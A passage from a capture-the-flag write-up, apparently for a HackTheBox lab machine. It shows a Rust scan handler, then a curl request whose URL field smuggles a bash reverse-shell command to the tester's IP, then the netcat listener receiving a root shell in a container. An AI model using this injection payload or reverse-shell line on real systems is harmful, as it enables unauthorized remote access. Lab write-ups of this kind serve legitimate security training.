 ```rust
        Err(_) => Json(ScanResponse {
            is_safe: true,
            temp_command_success: false,
            temp_command_stdout: "".to_string(),
            temp_command_stderr: "".to_string(),
        })
    }
}
```
{% endcode %}



<figure><img src="../../.gitbook/assets/imagen (30).png" alt=""><figcaption></figcaption></figure>



```bash
❯ curl -X POST http://intranet.ghost.htb:8008/api-dev/scan -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' -H 'Content-Type: application/json' -d '{"url":"http://gzzcoo.com;/bin/bash -i >& /dev/tcp/10.10.16.7/443 0>&1"}'
```



```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.24] 49786
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@36b733906694:/app# hostname -I
hostname -I
172.18.0.3 
```

